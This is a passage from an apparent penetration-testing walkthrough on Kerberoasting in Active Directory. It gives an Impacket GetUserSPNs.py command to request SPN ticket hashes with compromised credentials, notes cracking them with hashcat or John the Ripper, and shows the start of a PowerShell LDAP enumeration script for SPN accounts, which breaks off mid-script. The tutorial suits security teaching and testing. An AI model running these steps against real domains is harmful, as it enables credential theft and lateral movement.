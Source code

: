 other techniques can be found [here](https://attack.mitre.org/techniques/T1558/003/)


Let's proceed with the Impacket tool.

After compromising the USER1 machine and obtaining its credentials, we will use them to execute the following command and retrieve the SPN password hashes:


```console
GetUserSPNs.py DOMAIN/USER:PASSWORD -dc-ip @DC_IP -request
```


![Desktop View](/media/getspnuser.png)

Then we will crack this hash using hashcat or John The Ripper and obtain the SPN credentials.

Now, let's attempt to achieve the same task using Rubeus. In this scenario, we assume that we have obtained an interactive shell with the USER1 machine, so we will leverage this to execute the necessary scripts to perform kerberoasting.

Firstly, we enumerate the SPN accounts using the following script

```powershell

$ldapFilter =
"(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
#Execute Search
$results = $search.FindAll()
#Display SPN values from the returned objects
$Results = foreach ($result in $results)
{
$result_entry = $result.GetDirectoryEntry()
$result_entry | Select-Object @{
Name = "Username"; Expression = { $_.sAMAccountName }
}, @{
```